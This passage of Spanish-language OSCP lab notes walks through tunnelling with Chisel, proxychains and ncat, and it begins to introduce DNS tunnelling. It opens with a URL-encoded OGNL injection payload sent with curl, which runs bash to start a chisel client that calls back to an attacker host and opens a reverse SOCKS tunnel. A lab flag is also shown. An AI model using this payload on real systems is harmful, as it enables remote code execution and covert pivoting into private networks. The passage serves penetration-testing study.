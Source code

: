 <br />

```
curl http://192.168.219.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.244:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Esto hará que el cliente realize una request a nuestro servidor chisel creando un túnel http (HTTP WebSocket) sobre el que transportar datos. Todo lo que resta es utilizar una herramienta diseñada para interactuar con un WebSocket como *ncat*:

```
ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.223.215
```

**2. Start VM Group 2. Download /exercises/chisel_exercise_client from CONFLUENCE01. There's a server running on port 8008 on PGDATABASE01. Set up a port forward using Chisel that allows you to run chisel_exercise_client against port 8008 on PGDATABASE01.**

Procedemos como en el caso anterior y establecemos un túnel HTTP con Chisel (un binario descargado desde github) y de ahí utilizamos proxy chains modificando previamente el fichero de configuración para seguir el túnel HTTP:

```
tail /etc/proxychains4.conf 
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

<br />

```
┌──(kali㉿kali)-[~/Documents/OSCP]
└─$ proxychains ./chisel_exercise_client -i 10.4.223.215 -p 8008
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Connecting to 10.4.223.215:8008
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.4.223.215:8008  ...  OK
Flag: "OS{e3fcdb70c95cfdb9ab03a5d0174850dc}"
```


<br />

### 2. DNS Tunneling Theory and Practice.

El DNS es uno de los protocolos fundamentales de Internet y ha sido objeto de abuso por parte de los atacantes con diversos fines nefastos. Por ejemplo, puede servir como un mecanismo para canalizar datos indirectamente dentro y fuera de entornos de red restrictivos. Para comprender exactamente cómo funciona esto, presentemos un "curso acelerado" simplificado en DNS. Luego aprenderemos a realizar túneles DNS con una herramienta llamada dnscat2.
